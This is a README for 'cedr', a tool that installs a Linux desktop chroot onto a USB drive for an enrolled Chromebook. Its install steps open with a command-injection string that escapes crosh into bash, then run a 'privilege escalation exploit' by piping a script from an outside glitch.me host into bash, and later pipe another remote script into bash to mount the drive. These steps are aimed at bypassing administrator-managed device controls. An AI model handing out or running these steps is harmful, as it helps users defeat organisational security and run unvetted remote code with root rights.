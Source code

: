 # cedr
cedr - the ChromeOS Enrolled Desktop Runtime

## Requirements
 - A Chromebook, downgraded to v81 with crosh access
 - A USB drive or SD card, 4gb or more (32gb is reccomended), formatted with a **single partition**, ext4 filesystem

## Installation onto a USB drive

1. Open a crosh tab (Ctrl+Alt+T) and get into bash:
```crosh
set_cellular_ppp \';bash;exit;\'
```
2. Run the privilege escalation exploit:
```bash
bash <(curl http://hostz.glitch.me/80.sh)
```
3. Now, plug in your USB drive/SD card and find the path to its block device. Usually, it'll be /dev/sda if you're using a USB drive, or something different with an SD card. Either way, use the following command to find it (it's usually at the bottom)
```bash
fdisk -l
```
4. Once you know the drive you're installing cedr to, you can mount the drive and download cedr as follows:
```bash
mkdir -p /home/chronos/usbdrv
mount -o exec,suid,dev,symfollow /dev/sdX /home/chronos/usbdrv # Be sure to replace /dev/sdX with your drive!
cd /home/chronos/usbdrv
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-install.sh -o cedr-install.sh
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-activate.sh -o cedr-activate.sh
chmod +x cedr-activate.sh
chmod +x cedr-install.sh
```
5. You now need to choose a target to install. You can choose from the options [here](https://github.com/rainestorme/crouton/tree/master/targets). Each target represents a desktop environment. For this tutorial, I'll use `xfce` as the target, but you can change it to whatever you want.
```bash
./cedr-install.sh xfce
```
6. This will take around 50 minutes and once it's done, it will prompt you for a username and password. Supply these and the chroot will automatically be unmounted. Now, to activate the desktop, run the following, replacing `startxfce4` with the normal host command (see the crouton docs) you would use to launch it:
```bash
./cedr-activate.sh startxfce4
```
7. Now that you're done working within your chroot desktop environment, you can logout of the session using the built-in controls. If you want to unplug the USB drive, wait for the process to finish unmounting, then run the following:
```bash
cd /home/chronos
umount /home/chronos/usbdrv
```

## Usage

After creating a USB drive with cedr, you can remount it and launch the desktop environment with the super-duper-ultra-easy command found below:

```bash
curl https://raw.githubusercontent.com/rainestorme/cedr/main/cedr-mount.sh | bash -s /dev/sdX startxfce4
```

Once again, replace /dev/sdX with your USB drive/SD card, and replace startxfce4 with your desktop environment's host command.

Once you're done, just do the same thing as before to unmount your drive:

```bash
cd /home/chronos
umount /home/chronos/usbdrv
```
